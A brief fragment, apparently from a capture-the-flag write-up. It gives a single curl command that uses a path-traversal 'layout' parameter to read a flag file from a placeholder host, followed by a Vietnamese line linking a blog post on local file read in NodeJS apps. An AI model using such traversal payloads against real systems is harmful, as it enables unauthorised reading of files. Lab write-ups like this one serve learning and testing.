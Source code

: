 curl http://<url>:41437/?layout=../flag.txt

Lí do là: https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/